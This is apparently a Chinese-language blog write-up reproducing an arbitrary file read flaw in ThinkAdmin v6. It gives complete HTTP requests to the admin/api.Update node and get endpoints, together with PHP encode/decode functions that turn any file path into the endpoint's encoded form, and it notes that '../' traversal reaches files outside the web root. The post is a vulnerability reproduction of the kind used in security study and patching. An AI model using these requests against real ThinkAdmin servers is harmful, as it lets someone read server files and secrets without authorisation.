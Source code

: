 ```yaml
---
categories:
    - 漏洞复现
tags:
    - 漏洞复现
    - Thinkadmin
---
```

## Thinkadmin 任意文件读取复现

```
POST /admin.html?s=admin/api.Update/node HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Connection: close
Referer: http://xxx/admin.html?s=admin/api.Update/node
Cookie: PHPSESSID=bcfcc345c9a2ffbd53edad34794d0c71
Upgrade-Insecure-Requests: 1

rules=["./"]
```

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/001.jpg)

主要读取文件url:是经过函数加密的

```
GET /admin.html?s=admin/api.Update/get/encode/1b34392q302x2r1b2x322s2t3c1a342w34 HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://xx/admin.html?s=admin/api.Update/node
Cookie: PHPSESSID=bcfcc345c9a2ffbd53edad34794d0c71
Upgrade-Insecure-Requests: 1


```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/002.png)

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/003.png)

文件名加解密函数如下，可以将想读取的文件经过encode函数加密后进行读取，读取内容是base64加密的：  
需要注意读取文件要加上`/public/`,同时可以通过`../`跨目录读取

```
<?php

function encode($content)
    {
		$length = strlen($string = iconv('UTF-8', 'GBK//TRANSLIT', $content));
        $chars ='';
        for ($i = 0; $i < $length; $i++) $chars .= str_pad(base_convert(ord($string[$i]), 10, 36), 2, 0, 0);
        return $chars;
    };
echo encode("/public/index.php")."<br>";

function decode($content)
    {
        $chars = '';
        foreach (str_split($content, 2) as $char) {
            $chars .= chr(intval(base_convert($char, 36, 10)));
        }
        return iconv('GBK//TRANSLIT', 'UTF-8', $chars);
    };
echo decode("1b34392q302x2r1b2x322s2t3c1a342w34");
?>
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/004.png)


github 源文件地址：

```
https://github.com/zoujingli/ThinkAdmin/blob/v6/app/admin/controller/api/Update.php
```

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/005.png)

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/006.png)

```
https://github.com/zoujingli/ThinkAdmin/blob/05711afcdcd0c87fcbf65a614281941a457b0863/vendor/zoujingli/think-library/src/common.php#L163
```

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/007.png)